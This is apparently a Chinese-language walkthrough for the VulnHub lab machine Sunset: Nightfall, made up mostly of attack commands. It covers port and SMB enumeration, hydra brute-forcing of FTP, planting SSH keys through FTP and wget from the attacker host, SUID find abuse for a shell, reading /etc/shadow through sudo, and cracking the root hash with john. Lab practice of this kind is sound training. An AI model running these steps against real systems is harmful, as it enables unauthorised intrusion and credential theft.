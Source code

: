 # Sunset:nightfall

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：nightfall（IP：192.168.56.104）

下载：https://www.vulnhub.com/entry/sunset-nightfall,355/

## Let's go

```
nmap -A 192.168.56.104
```

![](./img/Sunset：Nightfall-01.png)![](./img/Sunset：Nightfall-02.png)

```
dirb http://192.168.56.104/
```

![](./img/Sunset：Nightfall-03.png)

> **并没有发现什么，我们对SMB进行枚举**

```
enum4linux -a 192.168.56.104
```

![](./img/Sunset：Nightfall-04.png)

> **得到两个用户 ‘nightfall’ 和 ‘matt’ ，接下来我们进行暴力破解**

```
#SSH破解很长时间无效果，FTP破解很快就出来了
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt -e nsr 192.168.56.104 ftp -f
```

![](./img/Sunset：Nightfall-05.png)

```
ftp 192.168.56.104
username:matt
password:cheese
```

![](./img/Sunset：Nightfall-06.png)

```
#我们通过FTP将SSH密钥上传
ssh-keygen
cp .ssh/id_rsa.pub authorized_keys
chmod 777 authorized_keys
```

![](./img/Sunset：Nightfall-07.png)

```
mkdir .ssh
cd .ssh
put authorized_keys
```

![](./img/Sunset：Nightfall-08.png)

```
ssh matt@192.168.56.104
```

![](./img/Sunset：Nightfall-09.png)

```
find / -perm -u=s -type f 2>/dev/null
```

![](./img/Sunset：Nightfall-10.png)

```
cd /scripts
./find . -exec /bin/sh -p \;
```

![](./img/Sunset：Nightfall-11.png)

> **这是一个受限的shell，因此我们要想办法**

```
cd /home/nightfall
mkdir .ssh
cd .ssh
wget http://192.168.56.102/authorized_keys
```

![](./img/Sunset：Nightfall-12.png)

```
ssh nightfall@192.168.56.104
```

![](./img/Sunset：Nightfall-13.png)

```
sudo -l
```

![](./img/Sunset：Nightfall-14.png)

```
sudo cat /etc/shadow
```

![](./img/Sunset：Nightfall-15.png)

```
vim root		#将哈希写入root
john root
```

![](./img/Sunset：Nightfall-16.png)

```
su root
password:miguel2
cd
cat root_super_secret_flag.txt
```

![](./img/Sunset：Nightfall-17.png)
